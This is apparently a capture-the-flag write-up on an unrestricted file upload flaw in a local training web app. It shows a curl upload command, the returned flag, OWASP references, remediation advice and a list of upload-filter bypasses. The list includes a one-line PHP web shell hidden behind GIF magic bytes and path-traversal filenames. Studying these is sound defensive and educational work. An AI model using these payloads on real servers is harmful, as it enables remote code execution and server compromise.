 ## Flag

Create a php file `file.php` add a accepted extension (e.g., `.jpeg`) and upload it via the file upload functionality.

```php
<?php
// file.php
echo "Hello from the uploaded file!";
?>
```

Upload the file to the web application and then access it via the URL:

```bash
curl -s -X POST -F "Upload=Upload" -F "uploaded=@file.php.jpeg;filename=file.php" http://localhost:8080/index.php\?page\=upload | grep flag
# -X POST: Specifies the request method as POST.
# -F "Upload=Upload": Simulates the form submission by including the "Upload" field.
# -F "uploaded=@file.php.jpeg;filename=file.php": Specifies the file to upload, with the correct MIME type and filename.
# @ indicates that the content of the file should be read and sent as the value of the "uploaded" field.
```

```html
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre>
<pre>/tmp/file.php succesfully uploaded.</pre>
```

We know the file was uploaded successfully because we see the message `/tmp/file.php successfully uploaded.`. Meaning the file is now on the server. So others techniques can be used to access and execute the uploaded file.

## Explanation

https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/10-Business_Logic_Testing/09-Test_Upload_of_Malicious_Files
https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html

Unrestricted file upload vulnerabilities occur when a web application allows users to upload files without proper validation and sanitization. This can lead to various security issues, including remote code execution, data breaches, and server compromise.
Usually, attackers exploit these vulnerabilities by uploading malicious files, such as web shells or scripts, that can be executed on the server using another vulnerability (e.g., local file inclusion) to execute the uploaded file.

## Remediation

To prevent unrestricted file upload vulnerabilities, consider the following best practices:

1. **File Type Validation**: Implement strict server-side validation to check the file type, not just the extension. Use a whitelist of allowed file types and verify the file's MIME type and magic bytes.
2. **File Size Limits**: Set limits on the size of uploaded files to prevent denial-of-service attacks.
3. **Storage Location**: Store uploaded files outside the web root directory to prevent direct access and execution.
4. **File Name Sanitization**: Sanitize file names to prevent path traversal attacks and avoid overwriting existing files.
5. **Access Controls**: Implement proper access controls to restrict who can upload files and what types of files they can upload.
6. **Regular Updates**: Keep the server and software up to date with the latest security patches.

---

## Common File Upload Vulnerabilities

### 1. **Insufficient File Type Validation**

- **Weakness**: Only checking file extension
- **Bypass Techniques**:
  - Double extensions: `shell.php.jpeg`, `shell.jpeg.php`
  - Case manipulation: `shell.PhP`, `shell.pHp`
  - Null byte injection: `shell.php%00.jpeg` (older PHP versions)
  - Append valid extension: `shell.php.jpg`

### 2. **MIME Type Manipulation**

- **Weakness**: Trusting client-sent Content-Type headers
- **Bypass**: Modify the Content-Type header in the request
  ```
  Content-Type: image/jpeg  (while uploading .php file)
  ```

### 3. **Magic Bytes/File Signature Bypass**

- **Technique**: Add valid image magic bytes at the beginning
  ```php
  GIF89a;
  <?php system($_GET['cmd']); ?>
  ```
- JPEG magic bytes: `FF D8 FF E0`
- PNG magic bytes: `89 50 4E 47`

### 4. **Path Traversal**

- **Goal**: Upload to unintended directories
- **Technique**: Use filenames like:
  - `../../shell.php`
  - `....//....//shell.php`
